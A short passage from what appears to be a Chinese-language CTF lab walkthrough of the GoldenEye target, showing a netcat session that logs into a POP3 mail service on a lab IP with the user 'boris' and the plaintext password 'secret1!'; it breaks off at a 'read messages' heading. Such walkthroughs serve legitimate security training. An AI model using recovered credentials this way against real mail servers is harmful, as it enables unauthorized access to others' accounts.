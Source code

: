 ![image-20230528144131971](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230528144131971.png)

### 2.2 访问邮箱

```
nc 192.168.128.140 55007        
+OK GoldenEye POP3 Electronic-Mail System
user boris
+OK
pass secret1!
+OK Logged in.
```

![image-20230528144606272](CTF%E9%9D%B6%E5%9C%BA%E6%B8%97%E9%80%8Fimage/image-20230528144606272.png) 

### 2.3 读取信息
